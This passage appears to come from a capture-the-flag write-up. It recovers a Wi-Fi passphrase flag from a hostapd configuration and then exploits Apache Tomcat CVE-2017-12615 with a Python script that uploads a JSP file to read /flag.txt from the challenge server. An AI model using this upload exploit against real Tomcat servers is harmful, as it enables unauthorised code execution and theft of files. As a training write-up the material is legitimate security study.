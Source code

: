On start, the system will launch the `hostapd` daemon, to create an AP. Let's take a look at its configuration:

```sh
# cat etc/hostapd/hostapd.conf 
country_code=FR
interface=wlan0
ssid=BackpackNet
hw_mode=g
channel=11
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=BackpackBackdoorNet
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
```

And we got our flag: `BackpackBackdoorNet`.

# Walter's blog

This new website is different from first websites. Searching for hidden page will render a 404 page, and we will get the server's version: `Apache Tomcat/9.0.0.M1`. A quick CVE search will bring up to attention the `CVE-2017-12615` which allow uploading .jsp files. Let's give it a try:

```python
#!/usr/bin/env python

import requests

url = 'http://waltersblog3.chall.malicecyber.com/aaaa.jsp'

content = """<%@ page import="java.io.*"%>
<%
FileInputStream in;
byte[] data = new byte[1024];

try {
  BufferedReader br = new BufferedReader(new FileReader("/flag.txt"));
  String st;

  while ((st = br.readLine()) != null) {
    out.println(st);
  }

} catch (IOException e){
  out.println("unable to open file");
}

%>"""

req = requests.put(url + '/', data=content)
print(req.status_code)

req = requests.get(url)
print(req.text)
```
